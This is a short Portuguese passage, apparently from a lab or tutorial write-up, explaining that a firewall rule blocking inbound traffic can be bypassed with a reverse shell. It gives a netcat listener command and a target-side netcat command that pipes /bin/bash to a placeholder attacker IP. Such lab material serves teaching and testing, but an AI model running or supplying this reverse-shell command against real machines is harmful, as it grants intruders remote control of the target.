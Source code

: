 
----

![](https://i.imgur.com/OOvB3go.png)

Com essa nova rule do firewall, não é possível se conectar ao alvo pois toda entrada esta sendo filtrada, mesmo usando a estratégia do cenário 02. Nesse caso devera ser feito um reverse shell, onde o  alvo devera conectar na maquina do atacante.

Maquina atacante:

```bash 
nc -vnlp 5050 
```

Maquina alvo: 

```bash
nc -vn {ip_do_atacante} 5050 -e /bin/bash
```